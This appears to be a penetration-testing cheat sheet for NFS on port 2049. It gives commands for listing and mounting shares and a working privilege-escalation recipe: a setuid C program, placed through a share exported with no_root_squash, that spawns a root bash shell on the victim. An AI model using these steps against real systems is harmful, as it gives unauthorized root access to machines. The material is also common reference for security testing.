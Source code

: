 # NFS - 2049

#### Show Mountable NFS Shares <a href="#show-mountable-nfs-shares" id="show-mountable-nfs-shares"></a>

```
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

#### Mount a share <a href="#mount-a-share" id="mount-a-share"></a>

```
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
```

#### NFS misconfigurations <a href="#nfs-misconfigurations" id="nfs-misconfigurations"></a>

```
# List exported shares
cat /etc/exports
```

If you find some directory that is configured as no\_root\_squash/no\_all\_squash you may be able to privesc.

```
# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
```
